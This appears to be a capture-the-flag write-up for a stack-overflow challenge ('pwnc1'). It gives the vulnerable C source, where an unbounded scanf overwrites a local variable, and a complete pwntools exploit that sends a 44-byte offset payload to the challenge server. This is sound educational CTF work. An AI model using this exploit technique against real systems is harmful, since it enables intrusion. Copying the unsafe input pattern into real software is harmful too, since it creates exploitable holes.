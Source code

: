 ```yaml
---
description: Binary Exploitation
---
```


# pwnc1

> A vulnerable program could you lead to the flag.
>
> By: @4nimanegra

{% file src="../../.gitbook/assets/pwn" %}

{% file src="../../.gitbook/assets/pwn.c" %}

```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

A simple variable overwrite challenge, source code being given definitely makes this way easier.

```c
void pwnme(){

	int number;
	char name[32];

	number=0;

	printf("Insert your name: ");

	scanf("%s",name);

	printf("Welcome home %s\n",name);

	if(number == 8){

		print_flag();

	}

	exit(0);

}
```

Find the offset using gdb until the if statement happens:

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Offset was 44 bytes which allowed me to easily create an overwrite:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'pwn')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '130.206.158.146'
port = int(args.PORT or 42011)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

offset = 44
target_value = 0x8

payload = flat({
    offset: target_value
})

io.clean()
io.sendline(payload)
log.info(io.recvline())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>
